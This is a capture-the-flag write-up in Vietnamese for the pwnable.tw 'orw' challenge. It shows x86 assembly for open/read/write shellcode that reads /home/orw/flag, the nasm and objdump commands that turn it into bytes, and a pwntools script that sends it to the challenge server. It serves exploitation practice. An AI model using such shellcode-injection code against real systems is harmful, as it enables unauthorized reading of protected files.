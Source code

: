 # [orw][[pwnable.tw](https://pwnable.tw)]

>Read the flag from ```/home/orw/flag```
>
>Only ```open``` ```read``` ```write``` syscall are allowed to use.
>
>```nc chall.pwnable.tw 10001```
>
>[orw](https://pwnable.tw/static/chall/orw)

OK cũng như các bài khác mình sẽ check kiểu file và strings

Kiểu file:

 ![Kiểu file](../image/orw_file.PNG)

Strings:

 ![Strings](../image/orw_string.PNG)

Strong ```chall``` này mình để ý nhất đề string ```"Give me your shellcode"```.

Load chall vào IDA

![Main](../image/orw_main.PNG)

Bài này đơn giản chỉ là đọc 1 đoạn shellcode người dùng nhập vào và thực thi doạn shellcode đó.

Quay lại vói đề bài. Ta biết vị trí của flag ```/home/orw/flag```. Biết được rằng chỉ được sử dụng các ```syscall```: ```open```, ```read```, ```write```.

Mình nghĩ mục đích của bài này để thử thách người chơi về kĩ năng tạo shellcode mà thôi

Mình sẽ sử dụng asm viết 1 đoạn chương trình đọc file và in ra màn hình sử dụng các syscall được cho phép. Rồi dùng objdump để tạo shellcode

```c
section .text
    global _start

_start:
    ;open
    mov     edx, 0
    mov     ecx, 0
    ;/home/orw/flag
    push    'ag'
    push    'w/fl'
    push    'e/or'
    push    '/hom'
    mov     ebx, esp
    mov     eax, 5
    int     80h

    ;read
    mov     edx, 30h
    mov     ecx, ebx
    mov     ebx, eax
    mov     eax, 3
    int     80h

    mov     edx, eax
    mov     eax, 4
    mov     ebx, 1
    int     80h
    ;exit
    mov     eax, 1
    int     80h

```

Biên dịch với nasm:

```sh
nasm -f elf test.asm
ld -m elf_i386 -s -o test_1 test.o
```

Dump:

```sh
for i in $(objdump -d test_1 |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```

Sau khi bước này mình đã có shellcode trong tay. Việc còn lại sẽ tương tự như ```start``` challenge trong bài viết trước

Python code:

```python
from pwn import *

host = "chall.pwnable.tw"
port = 10001

shellcode = "\xba\x00\x00\x00\x00\xb9\x00\x00\x00\x00\x68\x61\x67\x00\x00\x68\x77\x2f\x66\x6c\x68\x65\x2f\x6f\x72\x68\x2f\x68\x6f\x6d\x89\xe3\xb8\x05\x00\x00\x00\xcd\x80\xba\x30\x00\x00\x00\x89\xd9\x89\xc3\xb8\x03\x00\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80"

con = remote(host, port)
print con.recv(1024)

con.send(shellcode)
print con.recv(1024)
con.close()
```